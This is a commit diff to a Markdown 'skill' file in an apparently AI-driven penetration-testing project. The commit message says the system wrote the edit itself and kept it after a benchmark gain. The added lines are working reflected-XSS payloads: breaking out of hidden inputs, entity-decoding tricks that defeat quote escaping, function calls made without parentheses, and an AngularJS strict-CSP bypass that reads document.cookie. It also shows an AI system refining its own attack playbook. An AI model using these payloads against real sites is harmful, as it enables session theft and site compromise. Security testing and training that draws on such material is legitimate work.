

Before and after one commit to Uname58/HackMate, a Markdown page: skills/xss/reflection_xss.md, 3 parts joined by grey strips. Shown at 89% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
skill(reflection_xss)：improve_skill 优化，hidden 57→71 经 gate 保留
HackMate 自身 improve_skill 产出（非人工代写）。增强信号后候选在留出集
hidden 涨 14pp、regression 守住 57% 不跌，gate 判真泛化予以保留。

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

```diff
--- a/skills/xss/reflection_xss.md
+++ b/skills/xss/reflection_xss.md
@@ -46,6 +46,13 @@
 - `srcdoc`: `<iframe srcdoc="<script>parent.alert(1)</script>">` — literal `<` in quoted attr is legal; `&lt;script&gt;…` also works. Requires no sandbox without `allow-scripts`, inherits parent CSP.
 - `style="…"`: `javascript:` in `url()` dead in modern browsers; use CSS exfil or break out.
 
+#### Hidden/immutable input contexts
+- If the injection point is inside `<input type="hidden" value="...">`, events like `onmouseover`/`onfocus` will never fire because the element is hidden. **First inject `type="image"` (or `type="text"` + `autofocus onfocus`), then attach the event: `" type="image" src=x onerror=alert(1) x="`.** `type="image"` with broken `src` fires `onerror` automatically. This is often faster than trying to interact with hidden elements.
+- In `value="..." type="hidden"` reflections, if the quotes allow breakout but `type=hidden` kills events, always try to overwrite `type`.
+
+#### Event-handler JS string escapes
+- When the reflection lands inside an inline event handler's JS string (e.g. `onclick="track('REFLECTION')"`) and the server escapes single quotes with a backslash (`\'`) or double quotes with HTML entities, **remember that HTML entities in attribute values are decoded before JavaScript parsing.** Inject `&apos;` (or `&#39;`, `&#x27;`) to produce a raw single quote inside the JS string, bypassing the backslash escape. Template: `&apos;-alert(1)-&apos;` (or `&apos;+alert(1)+&apos;`). After HTML parsing the attribute becomes `track(''-alert(1)-'')`, which executes `alert(1)` as part of the expression. Works even when the server escapes both `'` and `\`, because the entity is not touched.
+
 ### Script context
 - JavaScript string single-quoted: `';alert(1)//`, `'-alert(1)-'`; double-quoted: `";alert(1)//`; backslash-escaped: `\';alert(1)//`.
 - Non-string: `1;alert(1)//`, bare `alert(1)`; template literal: `${alert(1)}`; regex: `/;alert(1)//`; line comment: prepend `%0a`.
@@ -53,6 +60,12 @@
   - One-pass `</script` stripping: preceding `<!--` puts tokenizer into script-data-escaped state; following `<script` into double-escaped state where `</script>` no longer closes — add extra `</script>`.
 - JSON.stringify output inside `<script>` — JSON doesn't escape `<`, `>`, `/`: `"</script><script>alert(1)</script>"`. `\u2028`/`\u2029` breakouts dead since ES2019.
 - `JSONP`: `/api?callback=alert(1)//` → `<script src="/api?callback=alert(1)//">`; also CSP whitelist bypass.
+- **When `(` and `)` are filtered but you are inside a JS string (e.g. `javascript:` URL or script block), don't force direct calls.** Try:
+  - Tagged template: `alert\`1\`` (fires alert with argument `1`). Also `setTimeout\`alert\`1\``.
+  - Assign to `onerror` and trigger it: `onerror=alert;throw 1` — `throw` executes and fires the global `onerror` handler.
+  - Use `toString`/`valueOf` implicit call hooks: `toString=alert,window+''` or `x={toString:alert},x+''`.
+  - Arrow-function + comma + throw chain (when `{}` and `=>` allowed): `x=x=>{throw/**/onerror=alert,1337}`.
+  - Always verify in console which characters survive and which JS features are available.
 
 ### Comments / raw text / foreign content
 - HTML comment: `--><img src=x onerror=alert(1)>`, `--!><script>alert(1)</script>`.
@@ -76,6 +89,10 @@
 - `localStorage`/`sessionStorage`/`history.state`/`document.cookie` read into sink.
 - `postMessage` without origin check: from console `win.postMessage('<img src=x onerror=alert(1)>','*')`.
 - AngularJS present (`ng-app`): `{{constructor.constructor('alert(1)')()}}` works on ≤1.5 as sandbox escape; 1.6+ removed sandbox — test `{{1+1}}` first. Vue `v-html` / React `dangerouslySetInnerHTML` sinks take raw HTML.
+- **AngularJS + strict CSP (no inline scripts, no `'unsafe-eval'`)**: Angular's own expression parser is not blocked by CSP; you can use Angular directives with expression to execute arbitrary JS. Try injecting an element with a directive that triggers automatically:
+  - `<input id=x ng-focus=$event.composedPath()|orderBy:'(y=alert)(document.cookie)'>` and then navigate with `#x` to autofocus the input. The `orderBy` filter evaluates the supplied expression string, achieving code execution without `eval`.
+  - Other directives: `ng-init`, `ng-click` (needs click), `ng-mouseenter`; combine with URL fragment for automatic focus.
+  - Always test `{{1+1}}` first; if Angular is active, expression injection beats HTML tags.
 - Head reflections: `<title></title><script>alert(1)</script>`, `</title><img src=x onerror=alert(1)>`, `"><script>…` inside `<meta content="…">`.
 
 ## Filter & WAF bypass
```
Also changed, not shown: other parts of skills/xss/reflection_xss.md (+6 -3 lines).
